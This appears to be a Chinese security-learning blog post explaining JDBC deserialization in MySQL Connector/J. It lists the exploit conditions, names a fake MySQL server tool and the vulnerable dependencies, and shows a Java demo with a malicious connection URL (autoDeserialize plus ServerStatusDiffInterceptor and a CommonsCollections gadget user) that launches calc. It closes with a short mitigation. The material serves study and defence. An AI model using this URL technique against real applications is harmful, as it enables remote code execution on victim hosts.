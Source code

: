 #  JDBC反序列化漏洞   
原创 joyboy  fly的渗透学习笔记   2024-05-18 17:58  
  
**免责声明：**  
  
      本次文章仅限个人学习使用，如有非法用途均与作者无关，且行且珍惜；由于传播、利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除整改并向您致以歉意。谢谢！  
  
**JDBC简介：**  
  
JDBC 就是使用Java语言操作关系型数据库的一套API 全称：( Java DataBase Connectivity ) Java 数据库连接。  
JDBC的引入实现了java程序对数据库的便捷访问，通过使用JDBC，可以将sql语句传给任何一种数据库，不必单独写程序访问不同的数据库。  
  
**漏洞原理：**  
  
jdbc  
连接  
数据库的过程中，开启连接地址中的一些连接参数就有可能造成反序列化漏洞。  
  
利用条件：  
  
l  
攻击者可以控制  
JDBC  
的连接设置项，比如：mysql的  
autoDeserialize=true  
  
l  
可以控制数据库服务器（搭建的恶意的数据库服务器）  
  
l存在  
可以打的依赖  
  
**漏洞复现：**  
  
搭建恶意的mysql服务端：  
  
使用大佬的图形化工具：  
```
https://github.com/4ra1n/mysql-fake-server/
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6rg0u9Niad9ibic6AWmOicBiaFelPF2sUbhetE9xGnzQBEDgvIK0zDLB9XaegLxATic7iaKfXiaUUiaBb3jTbQ/640?wx_fmt=png&from=appmsg "")  
  
  
可以选择利用链、漏洞类型、触发点、数据库版本、自定义命令、自动生成数据库连接URL，基本全部自动化，非常贴心了![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/v1.3.10/assets/Expression/Expression_80@2x.png "")  
  
  
然后使用idea模拟客户端连接服务器：  
  
新建maven项目导入下面的依赖：  
```
  <dependencies>
        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>8.0.19</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>
```  
  
模拟客户端连接数据库demo  
```
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class jdbc_test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        String driver = "com.mysql.cj.jdbc.Driver";
//数据库连接URL以及相关配置
        String url = "jdbc:mysql://192.168.1.105:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CC31_calc";
//加载驱动类
        Class.forName(driver);

//通过 Drivermanager 类获取数据库连接的实例
        Connection connection = DriverManager.getConnection(url);
    }
}

```  
  
运行即可执行calc命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6rg0u9Niad9ibic6AWmOicBiaFelexILt0vrCJGmj2aTaviaU4AlyQyqeaHAMB0roCqeBE2Vn0Kq4ibtEAXw/640?wx_fmt=png&from=appmsg "")  
  
**漏洞修复：**  
```
禁用autoDeserialize
Properties properties=new Properties();
properties.setProperty("autoDeserialize","false");
```  
  
  
  
